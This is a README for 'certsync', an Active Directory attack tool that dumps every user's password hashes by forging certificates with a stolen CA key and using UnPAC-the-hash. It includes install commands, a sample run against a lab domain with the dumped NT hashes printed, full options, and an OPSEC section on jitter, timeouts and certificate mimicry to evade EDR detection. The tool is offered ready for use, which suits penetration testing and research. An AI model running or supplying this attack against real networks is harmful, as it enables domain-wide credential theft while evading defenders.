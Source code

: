 # certsync

`certsync` is a new technique in order to dump NTDS remotely, but this time **without DRSUAPI**: it uses [golden certificate](https://cyberstoph.org/posts/2019/12/an-introduction-to-golden-certificates/) and [UnPAC the hash](https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash).
It works in several steps:

1. Dump user list, CA informations and CRL from LDAP
2. Dump CA certificate and private key
3. Forge offline a certificate for every user
4. UnPAC the hash for every user in order to get nt and lm hashes

```text
$ certsync -u khal.drogo -p 'horse' -d essos.local -dc-ip 192.168.56.12 -ns 192.168.56.12
[*] Collecting userlist, CA info and CRL on LDAP
[*] Found 13 users in LDAP
[*] Found CA ESSOS-CA on braavos.essos.local(192.168.56.23)
[*] Dumping CA certificate and private key
[*] Forging certificates for every users. This can take some time...
[*] PKINIT + UnPAC the hashes
ESSOS.LOCAL/BRAAVOS$:1104:aad3b435b51404eeaad3b435b51404ee:08083254c2fd4079e273c6c783abfbb7:::
ESSOS.LOCAL/MEEREEN$:1001:aad3b435b51404eeaad3b435b51404ee:b79758e15b7870d28ad0769dfc784ca4:::
ESSOS.LOCAL/sql_svc:1114:aad3b435b51404eeaad3b435b51404ee:84a5092f53390ea48d660be52b93b804:::
ESSOS.LOCAL/jorah.mormont:1113:aad3b435b51404eeaad3b435b51404ee:4d737ec9ecf0b9955a161773cfed9611:::
ESSOS.LOCAL/khal.drogo:1112:aad3b435b51404eeaad3b435b51404ee:739120ebc4dd940310bc4bb5c9d37021:::
ESSOS.LOCAL/viserys.targaryen:1111:aad3b435b51404eeaad3b435b51404ee:d96a55df6bef5e0b4d6d956088036097:::
ESSOS.LOCAL/daenerys.targaryen:1110:aad3b435b51404eeaad3b435b51404ee:34534854d33b398b66684072224bb47a:::
ESSOS.LOCAL/SEVENKINGDOMS$:1105:aad3b435b51404eeaad3b435b51404ee:b63b6ef2caab52ffcb26b3870dc0c4db:::
ESSOS.LOCAL/vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
ESSOS.LOCAL/Administrator:500:aad3b435b51404eeaad3b435b51404ee:54296a48cd30259cc88095373cec24da:::
```

Contrary to what we may think, the attack is not at all slower.

## Table of Contents

- [certsync](#certsync)
  - [Table of Contents](#table-of-contents)
  - [Installation](#installation)
  - [Usage](#usage)
  - [Why](#why)
  - [Requirements](#requirements)
  - [Limitations](#limitation)
  - [OPSEC](#opsec)
  - [Credits](#credits)

## Installation

```text
git clone https://github.com/zblurx/certsync
cd certsync
pip install .
```

or 

```text
pip install certsync
```

## Usage

```text
$ certsync -h
usage: certsync [-h] [-debug] [-outputfile OUTPUTFILE] [-ca-pfx pfx/p12 file name] [-ca-ip ip address] [-d domain.local] [-u username] [-p password] [-hashes LMHASH:NTHASH]
                [-no-pass] [-k] [-aesKey hex key] [-use-kcache] [-kdcHost KDCHOST] [-scheme ldap scheme] [-ns nameserver] [-dns-tcp] [-dc-ip ip address]
                [-ldap-filter LDAP_FILTER] [-template cert.pfx] [-timeout timeout] [-jitter jitter] [-randomize]

Dump NTDS with golden certificates and PKINIT

options:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON
  -outputfile OUTPUTFILE
                        base output filename

CA options:
  -ca-pfx pfx/p12 file name
                        Path to CA certificate
  -ca-ip ip address     IP Address of the certificate authority. If omitted it will use the domainpart (FQDN) specified in LDAP

authentication options:
  -d domain.local, -domain domain.local
                        Domain name
  -u username, -username username
                        Username
  -p password, -password password
                        Password
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it
                        will use the ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)
  -use-kcache           Use Kerberos authentication from ccache file (KRB5CCNAME)
  -kdcHost KDCHOST      FQDN of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter

connection options:
  -scheme ldap scheme
  -ns nameserver        Nameserver for DNS resolution
  -dns-tcp              Use TCP instead of UDP for DNS queries
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter

OPSEC options:
  -ldap-filter LDAP_FILTER
                        ldap filter to dump users. Default is (&(|(objectCategory=person)(objectClass=computer))(objectClass=user))
  -template cert.pfx    base template to use in order to forge certificates
  -timeout timeout      Timeout between PKINIT connection
  -jitter jitter        Jitter between PKINIT connection
  -randomize            Randomize certificate generation. Takes longer to generate all the certificates
```

## Why

DSRUAPI is more and more monitored and sometimes retricted by EDR solutions. Moreover, `certsync` does not require to use a Domain Administrator, it only require a CA Administrator.

## Requirements

This attack needs:
- A configured Entreprise CA on an ADCS server in the domain,
- PKINIT working,
- An domain account which is local administrator on the ADCS server, or an export of the CA certificate and private key.

## Limitations

Since we cannot PKINIT for users that are revoked, we cannot dump thier hashes.

## OPSEC

Some options were added to customize the behaviour of the tool:
- `-ldap-filter`: change the LDAP filter used to select usernames to certsync.
- `-template`: use an already delivered certificate to mimic it when forging users certificates.
- `-timeout` and `-jitter`: change timeout between PKINIT authentication requests.
- `-randomize`: By default, every forged user certificates will have the same private key, serial number and validity dates. This parameter will randomize them, but the forging will take longer. 

## Credits

- [Olivier Lyak](https://twitter.com/ly4k_) for all his work on ADCS and [certipy](https://github.com/ly4k/Certipy).
- [Benjamin Delpy](https://twitter.com/gentilkiwi) for the unPAC the hash technique.
- [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) for [Certified Pre-Owned](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) and [Certify](https://github.com/GhostPack/Certify).
- [Mayfly](https://twitter.com/M4yFly) for his great lab: [GOAD](https://github.com/Orange-Cyberdefense/GOAD).
